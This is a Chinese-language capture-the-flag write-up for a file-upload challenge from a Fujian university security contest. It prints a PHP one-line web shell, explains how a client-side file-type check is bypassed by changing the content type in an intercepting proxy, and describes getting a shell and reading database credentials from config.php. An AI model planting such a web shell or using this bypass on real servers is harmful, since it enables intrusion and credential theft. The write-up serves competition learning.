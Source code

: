 ```yaml
---
arturl_encode: "68747470733a2f:2f626c6f672e6373646e2e6e65742f4d6172735f6775657374:2f61727469636c652f64657461696c732f3830303331393338"
layout: post
title: "第三届百越杯福建省高校网络空间安全大赛Do-you-know-uploadWriteup"
date: 2020-11-18 22:19:01 +0800
description: "推一波我的博客 Marsguest’s Blog第三届“百越杯”福建省高校网络空间安全大赛Do yo"
keywords: "第三届“百越杯”福建省高校网络空间安全大赛 do you know upload?"
categories: ['Ctf']
tags: ['Writeup', 'Ctf']
artid: "80031938"
image:
    path: https://api.vvhan.com/api/bing?rand=sj&artid=80031938
    alt: "第三届百越杯福建省高校网络空间安全大赛Do-you-know-uploadWriteup"
render_with_liquid: false
featuredImage: https://bing.ee123.net/img/rand?artid=80031938
featuredImagePreview: https://bing.ee123.net/img/rand?artid=80031938
---
```


# 第三届“百越杯”福建省高校网络空间安全大赛Do you know upload？Writeup

推一波我的博客
[Marsguest’s Blog](http://marsguest.com)

## 第三届“百越杯”福建省高校网络空间安全大赛Do you know upload？Writeup

首先，直接上传一句话木马1.php文件

```
<?php eval($_POST['cmd']);?>  //文件内容
```

发现如图弹窗
  
![这里写图片描述](https://i-blog.csdnimg.cn/blog_migrate/a26a514a80ce54f09b690d0fa3317080.jpeg)
  
初步判断是前台直接判断文件类型，这种绕过相对简单，更改传输时文件类型即可
  
再次上传1.php的一句话，利用burpsuite抓包，将文件类型改为image/gif
  
![这里写图片描述](https://i-blog.csdnimg.cn/blog_migrate/e3c021c9571a766a88af3c631393772f.jpeg)
  
成功上传
  
![这里写图片描述](https://i-blog.csdnimg.cn/blog_migrate/d9c5067e030d7e08b09c7c6ecae3f3cc.jpeg)
  
利用菜刀连接之前的上传好的一句话，拿到shell，看到根目录中存在文件config.php,打开，看到数据库用户名和密码
  
![这里写图片描述](https://i-blog.csdnimg.cn/blog_migrate/06eef76bd080d6071ba00e05dd7778a2.jpeg)
  
菜刀连接数据库，拿到flag
  
![这里写图片描述](https://i-blog.csdnimg.cn/blog_migrate/75b5ab743e3c03956d3452d4c0643625.jpeg)
  
![这里写图片描述](https://i-blog.csdnimg.cn/blog_migrate/9d55dca85615345ac61b3dcabb1de7d4.jpeg)